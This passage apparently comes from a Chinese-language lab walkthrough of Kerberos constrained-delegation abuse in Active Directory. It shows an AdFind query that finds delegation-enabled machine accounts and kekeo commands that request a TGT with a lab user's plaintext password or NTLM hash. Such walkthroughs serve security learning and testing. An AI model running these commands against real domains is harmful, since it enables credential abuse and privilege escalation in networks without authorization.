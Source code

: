 ### 3.2.2. 查询机器账户

查询域内设置了约束委派的机器账户。

```
shell AdFind -b "DC=0day,DC=org" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" msds-allowedtodelegateto
```

![image-20230801174157163](assets/image-20230801174157163.png)

### 3.2.3. 获取用户的票据

使用kekeo去请求TGT，这里可以采用明文或者hash值去请求，都可以，这里还是需要注意，我再做这一步的时候kekeo老是出现问题，主要还是对语法或者输入的内容比较严格。

```
明文：
shell kekeo "tgt::ask /user:webadmin /domain:0day.org /password:admin@123" "exit"   

hash值：
shell kekeo "tgt::ask /user:webadmin /domain:0day.org /NTLM:579da618cfbfa85247acf1f800a280a4" "exit"
```
